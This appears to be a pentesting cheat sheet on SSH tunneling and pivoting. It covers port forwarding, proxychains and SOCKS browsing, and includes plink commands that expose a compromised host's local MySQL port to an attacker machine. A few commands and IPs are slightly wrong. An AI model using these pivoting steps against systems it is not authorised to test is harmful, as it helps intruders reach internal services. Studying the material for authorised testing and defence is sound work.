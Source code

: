 # SSH Tunneling/Forwarding

## Ipconfig

* looking for machines that have at least THREE network interfaces (loopback, eth0, and eth1)
* these machines are connected to other networks, so use them to pivot

### Windows

```bash
ipconfig /all
route print
arp -a
```

### Linux

```bash
ifconfig
ifconfig -a
arp -a
```

## SSH Tunneling - Port forwarding on SSH

### Use Cases

* encrypt traffic that uses unencrypted protocols, like VNC, IMAP, IRC.
* on a public network and want to encrypt all your http traffic
* want to bypass firewall rules

### Local Port Forwarding

* make Facebook available on address localhost:8080

```bash
ssh -L 8080:www.facebook.com:80 localhost
```

* you can also forward ports like this

```bash
ssh username@<remote-machine> -L localport:target-ip:target-port
```

```bash
ssh [username@192.168.1.111](mailto:username@192.168.1.111) -L 5000:192.168.1.222:5000
```

now this port will be available on the localhost, go to

```bash
nc localhost:10000
```

### Remote Port Forwarding

* imagine that a compromised machine, and that machine has MYSQL running but it is only accessible for localhost
* can't access it because you have a really crappy shell, just forward that port to our attacking machine
* the steps are as following

```bash
ssh <gateway> -R <remote port to bind>:<local host>:<local port>
```

* by the way, plink is a ssh-client for windows that can be run from the terminal
* the ip of the attacking machine is 111.111.111.111
* Step 1: on our compromised machine

```bash
plink.exe -l root -pw mysecretpassword 111.111.111.111 -R 3307:127.0.0.1:3306
```

* Step 2: check netstat on our attacking machine, should see something like this

```bash
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      19392/sshd: root@pt
```

* that means that we can connect to that port on the attacking machine from the attacking machine
* Step 3: connect using the following command

```bash
mysql -u root -p -h 127.0.0.1 --port=3307
```

### Dynamic port forwarding

* can be used to dynamically forward all traffic from a specific application
* with remote and local port forwarding you are only forwarding a single port
* can be a hassle if the target machine has 10 ports open that you want to connect to
* instead we can use a dynamic port forwarding technique
* set up the tunnel like this
* after it is set up do not run any commands in that session
* connect to the machine we want to pivot from

```bash
ssh -D 9050 [user@192.168.1.111](mailto:user@192.168.1.111)
```

* since proxychains uses 9050 by default (the default port for tor) configuring Proxychains is not needed
* to change the port do that in /etc/proxychains.conf

```bash
proxychains nc 192.168.2.222 21
```

* to supress all the logs from Proxychains, configure it in the config file

## Tunnel all HTTP/HTTPS Traffic Through SSH

* need two machines
* Machine1 - 111.111.1111.111 - the server that works as the proxy
* Machine2 - the computer with the web browser
* check out what the public IP address is, so that we know the IP address before and after so we can verify that it works
* on Machine2 we run

```bash
ssh -D localhost:9999 [root@111.111.111.111](mailto:root@111.111.111.111)
#or run with -N flag
ssh -D localhost:9999 [root@111.111.111.111](mailto:root@111.111.111.111) -N
```

* now go to

```bash
Firefox/settings/advanced/network and SOCKS 
add 127.0.0.1 and port 9999
```

* notice that this setup probably leaks DNS, so don't use it if  opsec is needed
* to fix the DNS-leak
* go to

```bash
about:config in firefox #(in the addressbar) 
#then look for 
network.proxy.socks_remote_dns #and switch it to TRUE
```

* now you can check [https://ipleak.net/](https://ipleak.net)
* it still says that we have WebRTC leaks, in order to solve this go to

```bash
about:config #and set the following to FALSE: 
media.peerconnection.enabled
```

## References

* This is a good video-explanation
* [https://www.youtube.com/watch?v=c0XiaNAkjJA](https://www.youtube.com/watch?v=c0XiaNAkjJA)
* [https://www.offensive-security.com/metasploit-unleashed/pivoting/](https://www.offensive-security.com/metasploit-unleashed/pivoting/)
* [http://ways2hack.com/how-to-do-pivoting-attack/](http://ways2hack.com/how-to-do-pivoting-attack/)
